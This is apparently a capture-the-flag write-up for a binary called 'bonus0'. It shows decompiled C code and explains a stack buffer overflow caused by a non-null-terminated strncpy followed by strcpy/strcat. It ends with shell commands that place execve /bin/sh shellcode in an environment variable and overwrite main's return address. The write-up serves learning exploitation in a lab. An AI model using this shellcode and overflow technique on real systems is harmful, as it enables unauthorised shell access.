 # Bonus 0

## the code

```c
char *__cdecl p(char *dest, char *s)
{
  char buf[4104]; // [esp+10h] [ebp-1008h] BYREF

  puts(s);
  read(0, buf, 0x1000u);
  *strchr(buf, 10) = 0;
  return strncpy(dest, buf, 0x14u);
}

//----- (0804851E) --------------------------------------------------------
char *__cdecl pp(char *dest)
{
  char src[20]; // [esp+28h] [ebp-30h] BYREF
  char v3[28]; // [esp+3Ch] [ebp-1Ch] BYREF

  p(src, " - ");
  p(v3, " - ");
  strcpy(dest, src);
  *(_WORD *)&dest[strlen(dest)] = unk_80486A4;
  return strcat(dest, v3);
}

//----- (080485A4) --------------------------------------------------------
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[42]; // [esp+16h] [ebp-2Ah] BYREF

  pp(s);
  puts(s);
  return 0;
}
```

## the goal

The program read two strings on stdin, replace the \n with 0, concatenate them with a space in between and print the result.
The first 20 chars of each string are first copied with strncpy() in src[20] and v3[20] respectively. The first resulting string is then copied with strcpy() in
s[42], a space is added and then the second string is concatenated with strcat to it.
If a src provided to strncpy() is longer than n, the function will not add a '\0'.
On the stack, v3 is after src. If src[20] is not 0 ended, when copied into s[42], v3[20] will be copied in a raw after src[20]. As v3[20] is strcat thereafter, it will be copied twice, leading to a buffer overflow.
A shellcode opening a shell is placed in a env variable. It's address will be guessed with getenv() in order to replace the main return address.

To make it work, we increased the env variable address by 2 and added 7 chars to the second input.

## the hack

```sh
$ cd /tmp
$ vim gev.c
$ gcc gev.c
$ export EXPLOIT=`python -c 'print("\x90" * 50 + "\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")'`
$ ./a.out
$ cd ~
$ (python -c 'print("A" * 20  )' ; python -c 'print("B" * 9 + "\x02\xff\xff\xbf"  + "C" * 7)' ; cat) | ./bonus0
```
